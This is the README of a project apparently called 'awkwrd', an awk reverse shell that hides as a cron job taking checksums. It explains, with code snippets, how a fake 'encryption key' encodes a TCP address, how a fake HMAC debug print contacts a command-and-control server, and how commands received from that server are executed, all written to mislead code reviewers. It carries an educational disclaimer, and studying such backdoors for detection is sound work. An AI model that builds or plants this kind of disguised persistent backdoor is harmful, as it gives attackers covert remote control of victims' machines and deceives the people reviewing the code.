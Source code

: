 # awkwrd

An awk reverse shell.

## Purpose

The `checkrc.awk` command periodically calls out to a remote server and executes its commands. It is disguised as a recurring task to take the shasum of a file (e.g. to track when it is modified).

## Install
This command creates the main `checkrc.awk` file, an encryption key, and adds settings to cron.
```
./install.sh
```

## How it works

Before we dig into the code, we need some background on the encryption key that gets generated.

### The "encryption key"

After running `./install.sh`, a base64-encoded file should be saved to `$HOME/.checkrc/.key`. This looks like a stream of random bytes, but it's actually been carefully crafted to encode an awk-style TCP URI (see [awk Network Programming](https://www.gnu.org/software/gawk/manual/html_node/TCP_002fIP-Networking.html)).

Let's try decoding the file and only reading the even-numbered columns...
```bash
$ base64 -d $HOME/.checkrc/.key | awk '{print $2$4$6$8$10$12$14$16$18$20}'
/inet/tcp/0/localhost/8888
```

### Getting the Host URL
The first few lines of `checkrc.awk` simply read the key we see above, with some indirection around reading the even-numbered columns. As we know, we get a hostname out of this. Meanwhile, the reader believes we have loaded a private key into memory.
```awk
# load key into memory two bytes at a time
("base64 --decode $HOME/.checkrc/.key" | getline)
for (i=2;i<=NF;i+=2) key=key$i
```

### Sending the Request
The entire "HMAC generation" step exists mostly for indirection, except for the print statement. Those familiar with `awk` coprocesses and networking will note that this print statement actually opens a connection to our host above (`localhost:8888`) and sends the text `"starting with key "`.

Our command and control server would be set up to handle this input, while to the reader, this looks like a harmless debug statement.
```awk
# generate hmac of bash profile and save to logfile
print "starting with key " |& key
system(sprintf("openssl dgst -sha1 -hmac %s ~/.bashrc >>$HOME/shasums.txt", key))
```

### Remote Execution
This is the core of the script that reads data from the remote server and executes it. We hide it by talking about traditionally confusing concepts, but it's a difficult part to fully obfuscate (I'm open to suggestions).

```awk
# flush buffers and clean up file descriptors
close(key |&getline fd)
print "closed " |& fd
```

Let's break down what's going on here.
1. `key |& getline fd` reads a response from the host (`localhost:8888`), and populates the variable `fd` with the response data.
2. `close()` actually does close the connection, but evaluates step (1) first.
3. `print "closed " |& fd` runs the command received from the remote server. It does this by sending an arbitrary string to a process that runs the received command. This means that the received command should expect data on STDIN and handle it accordingly.

## Remote Server

This client assumes you have a remote server that can issue commands upon request. `server.awk` exists as a test server that sends remote tasks to be executed on the target host upon request. Creating a more configurable server is outside the scope of this project.

## Disclaimer

This project is for educational and research purposes only. The author is not responsible for individuals who misuse these materials for illegal purposes.
